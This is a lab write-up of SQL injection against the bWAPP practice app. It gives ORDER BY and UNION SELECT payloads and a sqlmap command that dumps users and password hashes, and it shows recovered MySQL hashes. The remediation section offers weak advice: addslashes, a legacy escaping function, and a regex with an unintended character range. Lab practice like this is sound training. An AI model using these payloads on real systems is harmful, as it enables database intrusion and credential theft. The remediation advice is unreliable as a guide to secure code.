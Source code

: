 # 1. Low
On first look, we found that there was text box. I tried to input `a` value and search it.

![SQL_G-S_L0.png](image/SQL_G-S_L0.png)

Input `a` into text box and search. The client will send to server with following variables: `var title = a` and `var action = search`.

![SQL_G-S_L1.png](Image/SQL_G-S_L1.png)
I tried with Single Quote (`' or %27`) which usually causing the SQL Injection vulnerable. And following picture is what we expected error Message.

![SQL_G-S_L2.png](Image/SQL_G-S_L2.png)

Using Order by clause to determine the number of column. I am guessing 8 column:
- Payload: `'ORDER+BY+8--+`
- Result will be: `Error: Unknown column '8' in 'order clause'`
=> So I tried with  guessing 7 columns. The data appeared which means that we knows that the database have 7 columns.

![SQL_G-S_L3.png](image/SQL_G-S_L3.png)

Select version of Ubuntu and database in current use.
- payload: `'UNION+SELECT+1,group_concat(@@version,'|',database()),3,4,5,6,7--+`
![SQL_G-S_L4.png](image/SQL_G-S_L4.png)



---
# 2. Medium
In this case, lab using [addslashes()](https://www.php.net/manual/en/function.addslashes.php) function to filter which is convert `'` to `\'` or other risk character that causing escape string of SQL. 

---
# 3. Script Supported
In this case, SQL Injection Techniques has already have [SQLMap](https://sqlmap.org/) which is a powered tool develop in python so that I should not write a script because of not better than [SQLMap](https://sqlmap.org/) 😁
- `sqlmap.py -u http://bee.bug:80/bWAPP/sqli_1.php?title=%27&action=search --hostname --tables --users --dbs --passwords --columns --cookie=PHPSESSID=c77d6e1e60e432177d833db76d92d0a9;security_level=0`

![SQL_G-S-SS0.png](image/SQL_G-S-SS0.png)

We known the credentials in hashes:
```shell
[*] debian-sys-maint [1]:
    password hash: *D4749CBC6F877E93F4A942F787C272224CC91D4A
[*] root [1]:
    password hash: *07BDCCE30E93A12AA2B693FD99990F044614A3E5
```
Trying to use [Crackstation](https://crackstation.net/) to see if we can have cleartext?

![SQL_G-S-SS1.png](image/SQL_G-S-SS1.png)

And finally, all reports that output in following path: 
- Environment variable path: `%LocalAppData%\sqlmap\output\<host_name_scanned>`
- Shell folder: `shell:Local AppData\sqlmap\output\<host_name_scanned>`

---
# 4. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 .-_]+`
- Using function to filter input: 
	- `$value = mysql_real_escape_string($data);`
	- `$value = addslashes($data);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)